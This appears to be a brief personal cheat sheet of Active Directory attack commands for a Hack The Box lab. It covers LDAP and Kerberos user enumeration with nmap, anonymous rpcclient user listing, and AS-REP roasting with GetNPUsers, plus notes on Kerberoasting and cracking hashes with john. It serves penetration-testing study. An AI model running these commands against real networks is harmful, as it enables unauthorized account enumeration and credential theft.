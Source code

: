 # Commands-Importants

- LDAP with nmap:
```bash
nmap --script ldap-search -p389 <target> -oN ldapScan
```
- Kerberos with nmap:
```bash
nmap -script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=/opt/Seclists/Usernames/Names/names.txt -p88 <target>
```
- Enumerate with `rpcclient`
```bash
rpcclient -U "" <target> -N -c 'enumdomusers' 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users
```
- AS-REP Roasting attack -> I get a hash/ticket  of a user
```bash
GetNPUsers htb.local/ -no-pass -usersfile users
```
- KERBEROS -> I need credentials -> `GetUserSPNs`

- Crack the hash/ticket with `john`

- 
